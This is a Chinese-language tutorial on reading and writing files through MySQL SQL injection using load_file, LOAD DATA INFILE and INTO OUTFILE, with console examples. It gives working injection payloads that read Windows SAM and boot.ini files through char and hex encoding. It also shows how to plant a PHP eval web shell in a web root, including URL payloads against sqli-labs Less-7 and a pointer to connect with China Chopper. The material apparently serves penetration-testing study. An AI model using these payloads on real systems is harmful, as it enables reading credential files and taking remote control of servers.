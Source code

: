 # SQL注入文件读写基础知识  
## 1. 读文件  

load_file(file_name):读取文件并返回该文件的内容作为一个字符串。  
使用条件：  
- A、必须有权限读取并且文件必须完全可读 
  - `and (select count(*) from mysql.user)>0/*` 如果结果返回正常,说明具有读写权限。  
  - `and (select count(*) from mysql.user)>0/*` 返回错误，应该是管理员给数据库帐户降权    
- B、欲读取文件必须在服务器上   
- C、必须指定文件完整的路径   
- D、欲读取文件必须小于 max_allowed_packet   

如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。   
比较难满足的就是权限，在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到只有administrators才能访问的文件，users就别想load_file出来。   
　

在实际的注入中，我们有两个难点需要解决：   
1. 绝对物理路径 
2. 构造有效的畸形语句 （报错爆出绝对路径）


在很多PHP程序中，当提交一个错误的Query，如果display_errors = on，程序就会暴露WEB目录的绝对路径，只要知道路径，那么对于一个可以注入的PHP程序来说，整个服务器的安全将受到严重的威胁。  
常用路径：
http://www.cnblogs.com/lcamry/p/5729087.html  

示例：  

`Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))`

char中内容为：c:\windows\repair\sam  
利用hex()将文件内容导出来，尤其是smb文件时可以使用。  

`-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  

Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的ASCII代码

`-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) `  

Explain：“c:/boot.ini”的16进制是“0x633a2f626f6f742e696e69”

`-1 union select 1,1,1,load_file(c:\\boot.ini) `  

Explain:路径里的/用 \\\代替

练习示例：   
```
MariaDB [test]> select load_file("d:\\test.php");
+--------------------------------+
| load_file("d:\\test.php")      |
+--------------------------------+
| 10.1.9-MariaDB
this is  a test |
+--------------------------------+
1 row in set (0.03 sec)

MariaDB [test]> select hex(load_file("d:\\test.php"));
+--------------------------------------------------------------+
| hex(load_file("d:\\test.php"))                               |
+--------------------------------------------------------------+
| 31302E312E392D4D6172696144420A746869732069732020612074657374 |
+--------------------------------------------------------------+
1 row in set (0.00 sec)
MariaDB [test]> select load_file(0x643A5C5C746573742E706870);
+---------------------------------------+
| load_file(0x643A5C5C746573742E706870) |
+---------------------------------------+
| 10.1.9-MariaDB
this is  a test        |
+---------------------------------------+
1 row in set (0.00 sec)
```
d:\\\test.php 的16进制为 0x643A5C5C746573742E706870。

## 2. 文件导入到数据库  

**LOAD DATA INFILE**    语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。  
在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile导入到数据库中。   

基本语法：    
```
load data  [low_priority] [local] infile 'file_name txt' [replace | ignore]
into table tbl_name
[fields
[terminated by't']
[OPTIONALLY] enclosed by '']
[escaped by'\' ]]
[lines terminated by'n']
[ignore number lines]
[(col_name,   )]
```

示例：  
```
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
```

将/tmp/t0.txt导入到t0表中，character set gbk是字符集设置为gbk，fields terminated by是每一项数据之间的分隔符，lines terminated by 是行的结尾符。

当错误代码是2的时候的时候，文件不存在，错误代码为13的时候是没有权限，可以考虑/tmp等文件夹。

练习示例：   

```
MariaDB [test]> CREATE TABLE t2(name varchar(100));
Query OK, 0 rows affected (0.19 sec)

MariaDB [test]> load data infile 'd:\\test.php' into table t2;
Query OK, 1 row affected (0.03 sec)
Records: 1  Deleted: 0  Skipped: 0  Warnings: 0

MariaDB [test]> select * from t2;
+----------------+
| name           |
+----------------+
| 10.1.9-MariaDB |
+----------------+
1 row in set (0.00 sec)
```
表必须先存在，首先创建一张表，表为一列，类型为char，执行`load data infile 'd:\\test.php' into table t2;`     后可以将文件内容写入到该表中，内容添加到表后面。


## 3. 写文件

`SELECT.....INTO OUTFILE 'file_name'`

可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此您必须拥有FILE权限，才能使用此语法。file_name不能是一个已经存在的文件。  

我们一般有两种利用形式：  
第一种直接将select内容导入到文件中，文件路径必须为已存在的路径，文件名不能存在：  

```
select version() into outfile "c:\\phpnow\\htdocs\\test.php"
```   
此处将version()替换成一句话，<?php @eval($_post[“mima”])?>也即 

```
select  <?php @eval($_post[“mima”])?>  into outfile "c:\\phpnow\\htdocs\\test.php"
```

直接连接一句话就可以了，其实在select内容中不仅仅是可以上传一句话的，也可以上传很多的内容。

第二种修改文件结尾：   

```
select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16进制文件
```

解释：通常是用‘\r\n’结尾，此处我们修改为自己想要的任何文件。同时可以用FIELDS TERMINATED BY  16进制可以为一句话或者其他任何的代码，可自行构造。在sqlmap中os-shell采取的就是这样的方式，具体可参考os-shell分析文章：http://www.cnblogs.com/lcamry/p/5505110.html  

练习示例：    
```
MariaDB [test]> select version() into outfile "d:\\test2.php" LINES TERMINATED BY 0x3C3F70687020406576616C28245F706F73745BA1B06D696D61A1B15D293F3E;
Query OK, 1 row affected, 1 warning (0.01 sec)

test2.php内容为：
10.1.9-MariaDB<?php @eval($_post[“mima”])?>
```

TIPS：   
（1）可能在文件路径当中要注意转义，这个要看具体的环境  
（2）上述我们提到了load_file(),但是当前台无法导出数据的时候，我们可以利用下面的语句：    
```
select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’)into outfile ‘c:\\wamp\\www\\test.php’
```

可以利用该语句将服务器当中的内容导入到web服务器下的目录，这样就可以得到数据了。上述my.ini当中存在password项（不过默认被注释），当然会有很多的内容可以被导出来，这个要平时积累。

## 4. 实践练习
```
?id=1')) union select 1,2,3 into outfile "C:\\xampp\\htdocs\\sqli-labs-php7\\Less-7\\7.php"--+
```
写一句话：     
```
?id=1')) union select 1,2,'<?php @eval($_post["mima"])?>' into outfile "C:\\xampp\\htdocs\\sqli-labs-php7\\Less-7\\7.php"--+
```
即在Less-7目录下写入7.php文件。
用菜刀连接即可。
